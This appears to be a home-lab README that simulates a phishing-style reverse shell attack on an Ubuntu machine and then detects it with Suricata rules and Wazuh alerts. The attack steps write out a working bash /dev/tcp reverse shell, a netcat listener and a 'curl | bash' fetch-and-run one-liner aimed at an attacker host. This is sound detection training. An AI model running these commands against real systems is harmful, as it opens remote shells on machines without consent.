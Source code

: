 
##  Objective

Simulate a **remote reverse shell attack** using a malicious Bash script and detect the activity using **Suricata** and **Wazuh** (configured on the victim machine).

---

## 🧪 Lab Setup

| Role     | Machine | IP Example         | Network Mode     |
|----------|---------|--------------------|------------------|
| Attacker | Kali    | `172.17.128.157`   | Bridged Adapter  |
| Victim   | Ubuntu  | `10.0.2.15`        | NAT              |

> 🔁 Different subnets simulate a remote attack scenario.

---

![Screenshot 2025-07-03 154733](https://github.com/user-attachments/assets/f6c9d61c-35ca-4374-a509-08248f474c39)

###  Step 1: Create Malicious Reverse Shell Script on Attacker

```bash
echo 'bash -i >& /dev/tcp/172.17.128.157/4444 0>&1' > rev.sh
chmod +x rev.sh
```

![image](https://github.com/user-attachments/assets/313a930c-5818-4495-9936-d449cde22c96)

### Step 2: Host the Script via HTTP Server

```bash
sudo python3 -m http.server 80
```
![image](https://github.com/user-attachments/assets/c8fe7502-8607-4d65-bd15-b13c638da700)

Script is now available at: `http://172.17.128.157/rev.sh`

### Step 3: Start Netcat Listener on Attacker

Take new terminal then type this command.

```bash
nc -lvnp 4444
```
![image](https://github.com/user-attachments/assets/b75347ea-762c-491d-93d4-810d75947942)

This waits for the victim's reverse connection.

### Step 4: Simulate Victim Executing the One-Liner (Phishing)

 **Command:**
```bash
curl http://172.17.128.157/rev.sh | bash
```

 **What This Command Does**

This one-liner does two things in a chain:

---

 **1.** `curl http://172.17.128.157/rev.sh`  
`curl` is used to download a file (`rev.sh`) from the attacker's machine (`172.17.128.157`) over HTTP (port 80).

`rev.sh` is a malicious Bash script that contains a reverse shell payload:

```bash
bash -i >& /dev/tcp/172.17.128.157/4444 0>&1
```

---

 **2.** `| bash`  
The `|` (pipe) sends the contents of that downloaded script directly into `bash` for execution.

That means the victim doesn’t save the file or inspect it. It’s blindly executed.

---

In a real-world phishing attack, this would happen when the user clicks a button like:

🔧 *"Click here to install update!"*

---

 **What Is Being Simulated?**

You are simulating a phishing or social engineering attack, where the victim:

- Clicks a fake update link  
- Or opens a terminal and pastes a command suggested by an attacker (e.g., from fake IT support)  
- Or runs an “installer” that connects to the attacker  

---
but for now, we're running it manually on the victim to simulate the victim being tricked.

![image](https://github.com/user-attachments/assets/8b927f3c-9a24-4655-bbf9-d8d5eaf6fe4c)


Now go check if the reverse shell was successful on the attacker machine.


![image](https://github.com/user-attachments/assets/c97221d3-4c21-4dfa-ab8a-80913463265a)

successful .

## Detect the reverse shell 

To detect this reverse shell activity, we need to add custom rules in Suricata-

```
sudo gedit /etc/suricata/rules/reverseshell.rules 
```

add this
 
```rule 
alert ip any any -> any 4444 (msg:"Possible Reverse Shell Connection to TCP 4444"; sid:1000003; rev:1; classtype:trojan-activity;)

```


```
sudo gedit /etc/suricata/rules/reverseshell1.rules 
```
add this
 
```rule 
alert tcp any any -> any any (msg:"Reverse Shell Payload Detected"; content:"bash -i >& /dev/tcp/"; sid:1000004; rev:1; classtype:trojan-activity;)

```

![image](https://github.com/user-attachments/assets/b347d7bb-3ca0-44e2-96bc-947a4fc6787e)

Test config:

```bash
sudo suricata -T -c /etc/suricata/suricata.yaml -v
```
Restart Suricata:

```bash
sudo systemctl restart suricata
```
Now  reverse shell will get detected.

Suricata Logs-

Check for alerts on the victim:

for live logs -
```bash
sudo tail -f /var/log/suricata/eve.json | jq 'select(.event_type=="alert")'
```
![image](https://github.com/user-attachments/assets/16c7f039-17f1-4387-b212-18476ff26768)


![image](https://github.com/user-attachments/assets/f2e2c051-027e-4020-b63b-cb130b1ff210)

For better understanding, it’s a good idea to check the fast.log

```bash
sudo tail -f /var/log/suricata/fast.log
```
![image](https://github.com/user-attachments/assets/084f84e1-5781-4c82-9a45-548ac98b973a)

Attack detected successfully.

## View Alerts in Wazuh Dashboard

In Wazuh :

Go to Discover or wazuh alerts

filter for  for:

![image](https://github.com/user-attachments/assets/665a1b50-42d7-4564-80ec-f032d31b56c5)


![image](https://github.com/user-attachments/assets/8dcb08e0-aa93-4715-ae01-0876824ee107)


